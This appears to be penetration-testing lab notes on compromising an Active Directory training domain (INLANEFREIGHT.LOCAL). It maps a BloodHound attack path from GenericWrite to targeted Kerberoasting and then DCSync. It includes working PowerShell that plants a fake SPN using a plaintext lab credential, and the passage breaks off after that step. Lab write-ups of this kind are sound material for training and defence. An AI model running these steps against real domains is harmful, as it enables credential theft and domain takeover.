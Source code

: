 # Active Directory Compromise

## 🎯 Overview

**Active Directory Compromise** represents the **final phase** of enterprise network penetration testing. Leverage **GenericWrite privileges** for **targeted Kerberoasting**, exploit **Server Admins group membership** for **DCSync attacks**, and achieve **Domain Administrator access** through systematic privilege escalation and credential harvesting.

## 🔍 BloodHound Attack Path Analysis

### 🎯 GenericWrite Privilege Discovery
```cmd
# mssqladm account analysis:
- GenericWrite over ttimmons user
- SQL service account privileges
- Domain credential access capability

# Attack vector identification:
GenericWrite → Fake SPN creation → Targeted Kerberoasting → Password cracking
```

### 📊 Attack Chain Visualization
```cmd
# Privilege escalation path:
mssqladm (GenericWrite) → ttimmons (GenericAll) → Server Admins → DCSync

# BloodHound query results:
1. MSSQLADM@INLANEFREIGHT.LOCAL → GenericWrite → TTIMMONS@INLANEFREIGHT.LOCAL
2. TTIMMONS@INLANEFREIGHT.LOCAL → GenericAll → SERVER ADMINS@INLANEFREIGHT.LOCAL  
3. SERVER ADMINS@INLANEFREIGHT.LOCAL → GetChanges/GetChangesAll → INLANEFREIGHT.LOCAL
```

## 🎫 Targeted Kerberoasting Attack

### 🔧 Fake SPN Creation
```powershell
# PSCredential object creation
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)

# Fake SPN assignment
Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose

# Verification:
[*] Setting 'serviceprincipalname' to 'acmetesting/LEGIT' for object 'ttimmons'
```
